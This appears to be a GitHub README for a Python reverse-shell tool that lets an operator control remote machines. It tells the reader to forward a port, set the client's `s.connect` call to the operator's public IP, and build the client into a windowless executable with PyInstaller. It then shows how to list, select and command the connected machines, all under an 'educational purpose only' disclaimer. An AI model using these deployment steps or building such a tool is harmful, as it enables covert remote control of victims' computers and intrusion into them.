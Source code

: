 ![](http://myspecialsite.host20.uk/Icon%20image.png)

## Overview
This is a hacking tool to get a reverse shell.
This is tool is for educational purpose only!
The responsibility on every use of this tool is on the user only!

## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules

## How to use
Make sure that you have port forwading on port 42424 (you can change it if you want) to your computer.
Type in the terminal `python3 server.py`

## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
## Conver client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.

## Using the tool
Start server.py and wait for connection.
To see of all your connections type `snake> list` in the interacive prompt.
To send commands to one of your connections type `select` and the ID number of the connection.
E.X.:
`snake> select 0`
When you are in the reverse shell of one of your connection' you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
